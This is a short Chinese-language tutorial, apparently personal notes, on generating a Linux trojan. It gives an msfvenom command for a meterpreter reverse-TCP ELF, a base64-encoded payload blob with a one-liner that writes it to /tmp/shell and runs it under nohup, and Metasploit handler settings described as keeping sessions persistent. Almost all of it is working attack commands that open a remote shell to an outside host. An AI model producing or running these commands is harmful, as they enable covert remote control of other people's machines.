 生成linux木马

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.207.224 lport=289 -f elf -o 289.elf
```

![image-20250603122816405](./assets/image-20250603122816405.png)



```
base64 -w0 port.elf
```

![image-20250603122825653](./assets/image-20250603122825653.png)



```
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgABIcCoz+BRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== | base64 -d >> /tmp/shell;chmod 555 /tmp/shell;nohup /tmp/shell
```





```
msfconsole -q 
user exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp 
set LPORT port
set LHOST lhost
set ExitOnSession false
run -zj
```



```
其中set exitonsession false
run -zj 
保证了我们可以持久化接受sessions会话
```

